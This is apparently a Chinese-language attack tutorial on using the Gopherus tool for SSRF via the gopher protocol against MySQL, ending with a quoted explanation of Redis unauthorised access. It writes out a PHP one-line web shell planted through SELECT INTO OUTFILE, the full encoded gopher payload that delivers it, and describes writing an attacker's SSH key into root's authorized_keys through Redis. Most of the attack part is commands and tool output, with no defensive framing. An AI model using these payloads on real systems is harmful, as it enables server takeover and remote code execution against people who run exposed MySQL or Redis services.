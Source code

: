 使用 gopher 协议去打 mysql

用 gopherus 工具生成 payload

```
python2 .\gopherus.py --exploit mysql

username:root
写入一句话木马
select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/2.php';
```

生成payload

```bash
➜  Gopherus git:(master) python gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/2.php';

Your gopher link is ready to do SSRF :

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4b%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%63%6d%64%27%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

_下划线后面的字符串要url编码一次

# 360 SSRF工具gopherus 打0.0.0.0:6379的redis

> **什么是Redis未授权访问？**
>
> Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空），会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器
>
> 简单说，漏洞的产生条件有以下两点：
>
> - redis 绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网
> - 没有设置密码认证（一般为空），可以免密码远程登录redis服务
